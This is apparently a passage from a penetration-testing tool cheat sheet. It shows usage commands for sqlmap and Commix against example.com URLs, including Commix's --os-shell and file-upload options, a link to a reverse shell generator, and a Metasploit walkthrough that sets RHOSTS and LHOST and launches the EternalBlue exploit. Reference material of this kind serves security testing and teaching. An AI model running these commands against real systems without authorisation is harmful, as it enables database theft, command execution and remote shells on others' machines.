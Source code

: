 #### Example
```bash
# Basic scan
sqlmap -u "http://example.com/page.php?id=1" --dbs
```
```bash
# POST data scan
sqlmap -u "http://example.com/login.php" --data="username=test&password=test" --dbs
```

🔗 [sqlmap.org](https://sqlmap.org/)

### 🔌 Commix
Automated command injection exploitation tool.  

#### Common Options  
- -u: Target URL
- --data: POST data
- --cookie: HTTP cookie header
- --file-write/file-dest: Upload files to target
- --os-shell: Prompt for an interactive shell

#### Example
```bash
# Basic scan
commix -u "http://example.com/vulnerable.php?cmd=id"
```
```bash
# POST data scan
commix -u "http://example.com/vulnerable.php" --data="parameter=value"
```

🔗 [github.com/commixproject/commix](https://github.com/commixproject/commix)

## 💣 Exploitation
### 🐚 Reverse Shell Generator
Generates one-liners for various reverse shell payloads.

🔗 [revshells.com](https://revshells.com)

### 🧨 Metasploit
Comprehensive framework for exploitation and post-exploitation.  

#### Example
```bash
# Start Metasploit
msfconsole
```
```bash
# Search for exploits
search type:exploit platform:windows ms17-010
search cve:2021 type:exploit
```
```bash
# Use an exploit
use exploit/windows/smb/ms17_010_eternalblue
```
```bash
# Set options
set RHOSTS 10.10.10.10
set LHOST 10.10.10.1
```
```bash
# Run the exploit
exploit
```
